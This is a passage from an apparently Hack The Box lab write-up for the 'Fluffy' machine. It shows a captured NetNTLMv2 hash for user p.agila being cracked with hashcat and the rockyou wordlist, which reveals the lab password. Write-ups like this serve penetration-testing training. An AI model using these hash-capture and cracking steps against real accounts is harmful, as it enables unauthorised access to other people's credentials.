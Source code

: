```
[*] p.agila::FLUFFY:aaaaaaaaaaaaaaaa:28c7670188bdaadd45981fdf97ceddae:010100000000000080b0e3d89ef5db01c2155af79f7587000000000001001000460041004a007a0071004b004400440003001000460041004a007a0071004b0044004400020010004d00740062006100530078006f006f00040010004d00740062006100530078006f006f000700080080b0e3d89ef5db0106000400020000000800300030000000000000000100000000200000ec74d5cbbf57bf4e5fea6e9a8a432988a1372678006d5eafcbab8122727ec4280a001000000000000000000000000000000000000900220063006900660073002f00310030002e00310030002e00310034002e003100310033000000000000000000
```

The hash was copied to a local file.

```
fcoomans@kali:~/htb/fluffy$ cat ntlmv2.hash
p.agila::FLUFFY:aaaaaaaaaaaaaaaa:28c7670188bdaadd45981fdf97ceddae:010100000000000080b0e3d89ef5db01c2155af79f7587000000000001001000460041004a007a0071004b004400440003001000460041004a007a0071004b0044004400020010004d00740062006100530078006f006f00040010004d00740062006100530078006f006f000700080080b0e3d89ef5db0106000400020000000800300030000000000000000100000000200000ec74d5cbbf57bf4e5fea6e9a8a432988a1372678006d5eafcbab8122727ec4280a001000000000000000000000000000000000000900220063006900660073002f00310030002e00310030002e00310034002e003100310033000000000000000000
```

And `hashcat` was used to crack the NetNTLMv2 hash.  The password for user `p.agila` is `prometheusx-303`.

```
fcoomans@kali:~/htb/fluffy$ hashcat --help |grep -i ntlm
   5500 | NetNTLMv1 / NetNTLMv1+ESS                                  | Network Protocol
  27000 | NetNTLMv1 / NetNTLMv1+ESS (NT)                             | Network Protocol
   5600 | NetNTLMv2                                                  | Network Protocol
  27100 | NetNTLMv2 (NT)                                             | Network Protocol
   1000 | NTLM                                                       | Operating System

fcoomans@kali:~/htb/fluffy$ hashcat -m 5600 ntlmv2.hash /usr/share/wordlists/rockyou.txt
hashcat (v6.2.6) starting

<SNIP>

P.AGILA::FLUFFY:aaaaaaaaaaaaaaaa:28c7670188bdaadd45981fdf97ceddae:010100000000000080b0e3d89ef5db01c2155af79f7587000000000001001000460041004a007a0071004b004400440003001000460041004a007a0071004b0044004400020010004d00740062006100530078006f006f00040010004d00740062006100530078006f006f000700080080b0e3d89ef5db0106000400020000000800300030000000000000000100000000200000ec74d5cbbf57bf4e5fea6e9a8a432988a1372678006d5eafcbab8122727ec4280a001000000000000000000000000000000000000900220063006900660073002f00310030002e00310030002e00310034002e003100310033000000000000000000:prometheusx-303

Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 5600 (NetNTLMv2)
Hash.Target......: P.AGILA::FLUFFY:aaaaaaaaaaaaaaaa:28c7670188bdaadd45...000000

<SNIP>
```

### 💰 Post Exploitation
